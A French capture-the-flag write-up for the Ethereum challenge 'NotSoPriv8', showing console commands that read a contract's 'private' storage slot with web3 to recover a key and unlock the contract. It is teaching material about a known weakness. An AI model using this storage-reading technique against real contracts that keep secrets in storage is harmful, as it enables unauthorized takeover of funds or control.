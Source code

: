# Ethereum - NotSoPriv8
## 35 Points
### "Tutoreum" again ?

## Énoncé
Everything is public in the Ethereum blockchain...

## Solution

L'objectif ici est exactement celui du challenge Ethereum - Tutoreum, sauf que cette fois ci, la valeur **key** est en **private**. Il faut donc trouver un moyen de passer **locked** à false.
```
level.locked().then(console.log)
true
```

On va donc essayer de lire la valeur de key dans le storage web3 du contract:

```
web3.eth.getStorageAt('0x76a4cd52a4bd14eeb3d650aa367d4ea94097c115', 0, (e, v) => console.log(web3.toAscii(v)))
{#²'úbºh0ÈÖs¬M1øâ¦£ìL1ÞQ¢
```

Bingo, on obtien quelque chose qui ressemble à du Bytes32, on va tester cela en utilisant ce qu'on a trouvé dans la fonction **own** pour voir si ça va marcher:
```
level.own("�{#²'ú�bºh0��ÈÖs¬M1øâ��¦£ìL1ÞQ¢�").then(console.log)

level.locked().then(console.log)
false
```

Cela a parfaitement marché, locked est passé à false, on a donc réussi le challenge.